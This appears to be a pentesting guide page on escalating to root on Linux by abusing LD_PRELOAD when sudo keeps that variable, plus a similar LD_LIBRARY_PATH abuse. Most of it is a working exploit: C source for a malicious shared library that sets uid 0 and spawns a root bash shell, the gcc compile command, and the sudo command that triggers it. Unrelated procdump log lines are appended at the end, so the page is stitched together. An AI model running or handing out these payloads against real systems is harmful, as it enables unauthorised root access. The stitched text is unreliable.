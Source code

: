 The **LD_PRELOAD** environment variable is used to specify one or more shared libraries (.so files) to be loaded by the loader before all others, including the standard C library (`libc.so`). This process is known as preloading a library.

However, to maintain system security and prevent this feature from being exploited, particularly with **suid/sgid** executables, the system enforces certain conditions:

- The loader disregards **LD_PRELOAD** for executables where the real user ID (_ruid_) does not match the effective user ID (_euid_).
- For executables with suid/sgid, only libraries in standard paths that are also suid/sgid are preloaded.

Privilege escalation can occur if you have the ability to execute commands with `sudo` and the output of `sudo -l` includes the statement **env_keep+=LD_PRELOAD**. This configuration allows the **LD_PRELOAD** environment variable to persist and be recognized even when commands are run with `sudo`, potentially leading to the execution of arbitrary code with elevated privileges.

```
Defaults        env_keep += LD_PRELOAD
```

Save as **/tmp/pe.c**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Then **compile it** using:

```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Finally, **escalate privileges** running

```bash
sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```

> [!CAUTION]
> A similar privesc can be abused if the attacker controls the **LD_LIBRARY_PATH** env variable because he controls the path where libraries are going to be searched.

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714